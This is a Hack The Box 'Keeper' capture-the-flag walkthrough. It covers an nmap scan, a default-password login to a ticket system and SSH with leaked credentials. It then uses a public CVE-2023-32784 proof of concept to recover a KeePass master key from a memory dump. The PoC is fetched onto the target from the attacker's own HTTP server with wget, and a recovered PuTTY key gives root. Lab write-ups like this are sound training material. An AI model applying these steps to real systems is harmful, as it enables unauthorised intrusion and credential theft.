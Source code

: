 # HTB KEEPER Walktrough

This walktrough is about the "hacking" of the HTB box "Keeper"

## Step 1: Getting Information
### Simple NMAP scan

```bash
sudo nmap -sV {IP}
```

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263785905-56cdfc90-2329-4d9a-a052-959e842ac1ac.png)


What interests us here is the open TCP port 80. This port hosts an Nginx server that's up and running. So, we'll go ahead and check out this website. On the page, there's a text that points us to 'tickets.keeper.htb/rt/'. That's where we'll head next.

### Visit of the Website

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263786060-01164585-ca00-434b-b5e8-762d7adc4148.png)


When we go to 'tickets.keeper.htb/rt/', this error message greets us. To bypass this error, we attempt to include the domain in our hosts file.


```bash
sudo nano /etc/hosts
```
![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263786227-62d8b29c-6404-4f6e-9442-eedf3e1bb436.png)


After reloading the page, the website becomes visible!

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263786307-a2f4c715-c200-4818-b5ff-82e903f35707.png)


## Step 2: Exploiting User Access

Initially, my approach involved searching for potential CVEs. While I did come across a few, unfortunately, none of them proved to be useful for this particular box.

As a next step, I decided to give the default password a shot: 

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263786582-72e53b79-d2d7-4295-be5c-926febc67e64.png)


### And Success! We're In!

After conducting some tests within the ticket system, I managed to uncover this user: 

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263787075-0f1c78a9-52ed-4afe-8e00-396779f359e3.png)


I stumbled upon an interesting comment related to the user!

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263787255-0aa0fc38-35a8-441e-882d-097c6f4bd812.png)


Thus, I decided to attempt an SSH connection using the following command:

```bash
ssh lnorgaard@10.10.11.227
```

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263787583-9574802d-5429-4301-8c21-4ca21026bddd.png)


That approach worked like a charm! Fantastic!

Additionally, I came across the 'user flag.txt' as well.


![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263787771-deaf72e0-5c3a-4232-8365-713c59619443.png)


## Step 3: Escalating Privileges

Within lnorgaard's ticket, I stumbled upon this intriguing message:

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263788466-885363ac-25d3-4e07-8541-9c304e3630df.png)

With the recent Keepass bug fresh in my mind, I began to search for potential avenues. After a brief investigation, I came across the CVE "CVE-2023-32784" and an existing functional exploit available at https://github.com/CMEPW/keepass-dump-masterkey.


### Uploading the PoC to the Server

To upload the PoC to the server, follow these steps:

1. Begin by downloading the script to your client machine using this command:

   ```bash
   wget https://raw.githubusercontent.com/CMEPW/keepass-dump-masterkey/main/poc.py
   ```

2. Next, start an HTTP server on your local machine using:

   ```bash
   python3 -m http.server
   ```

3. After that, you need to download the Python script to the HTB client with:

   ```bash
   wget https://{YOUR VPNIP}:8000/poc.py
   ```

4. Finally, execute the Python script using:

   ```bash
   python3 poc.py KeePassDumpFull.dmp
   ```

Running the script should produce the following output:

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263789611-41f3101f-54f0-43b2-b498-cb96e24870f8.png)

Since the obtained output isn't the actual password, we'll need to dig deeper to uncover the real password. Noticing that certain letters remain consistent, I'll focus on those.

To deduce the password, I've attempted a unique approach: replacing the special characters with '*' and using this modified pattern to search for clues online.

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263789928-8827332c-cc0f-4551-a920-e17a8aa3473d.png)

The initial search yields the result 'Rødgrød med fløde.' I'll proceed to test this phrase on the downloaded Keepass file.

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263790127-95466858-8f3b-4115-a44f-306bcf4a484a.png)

Unfortunately, 'Rødgrød med fløde' didn't work. I'll now attempt the same phrase in full lowercase.

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263790357-e78f26d9-b4e4-4d6e-bfb6-9971432085b4.png)

Once again, success! Great job!

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263790736-4bce287c-0eaa-42b2-a06c-06c32313221a.png)



In the Network category, a Putty SSH key for the root user is discovered. To use this Putty SSH key on Linux, it needs to be converted from the '.ppk' format to the '.pem' format. The conversion process can be achieved using the 'puttygen' package. It's important to create a separate file for each note in the Keepass, ensuring the entire note content is copied into the new file.

If the key file is named 'keeper.ppk', here's the command to perform the conversion:

```bash
puttygen keeper.ppk -O private-openssh -o htb.pem
```

Following the conversion, you can SSH to the server using the Linux SSH key:

```bash
ssh root@10.10.11.227 -i htb.pem 
```

With this setup, you'll have access to retrieve the root flag!

![image](https://github.com/chris-devel0per/HTB--keeper/blob/main/images/263791425-3350909d-0a31-4ff7-bf34-d18d3606e6a6.png)

